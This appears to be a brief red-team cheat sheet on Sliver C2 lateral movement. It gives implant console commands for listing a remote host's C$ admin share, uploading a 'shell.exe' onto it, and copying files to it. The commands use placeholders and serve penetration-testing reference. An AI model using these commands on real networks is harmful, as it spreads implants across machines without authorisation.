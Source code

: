 # Sliver

Search Tag(s): #post-exploitation #lateral-movement #sliver #windows

## 01 - List Files and Directories

```
sliver (IMPLANT_NAME) > ls \\\\<IP>\\c$

sliver (IMPLANT_NAME) > ls //<IP>/c$
```

## 02 - Upload Files

```
sliver (IMPLANT_NAME) > upload /path/to/local/shell.exe \\\\<IP>\\c$\\shell.exe

sliver (IMPLANT_NAME) > upload /path/to/local/shell.exe //<IP>/c$/shell.exe
```

## 03 - Copy Files Remotely

```
sliver (IMPLANT_NAME) > cp file.txt //<IP>/C$/copied_file.txt

sliver (IMPLANT_NAME) > cp file.txt \\\\<IP>\\C$\\copied_file.txt
```